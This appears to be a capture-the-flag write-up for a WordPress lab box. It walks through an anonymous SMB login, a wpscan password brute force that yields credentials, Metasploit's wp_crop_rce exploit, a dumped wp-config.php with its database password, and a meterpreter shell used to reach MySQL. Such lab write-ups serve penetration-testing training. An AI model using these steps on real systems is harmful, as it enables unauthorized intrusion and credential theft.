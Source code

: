 ```sh
        ---------            -------
        WORKGROUP            BLOG

```

2. Anon login to share and exfiltrate files
```sh
smbclient //10.10.105.124/BillySMB -U " "%" "

smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

```
3. In the blog there are two active users: *kwheel, bjoel*
4. Using wpscan we can bruteforce the list of users and get: *kwheel / cutiepie1*
```sh
wpscan --url http://blog.thm -U user.txt -P /usr/share/wordlists/rockyou.txt
```

5. Having the login we can use metasploit payload multi/http/wp_crop_rce and get a session. After we can check the wp-config.php file for DB connection
```sh
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/** Custom FS Method */
define('FS_METHOD', 'direct');
```

6. Spawn a shell in meterpreter with "shell" command and login to mysql:
```sh
mysql -h localhost -u wordpressuser -p
```
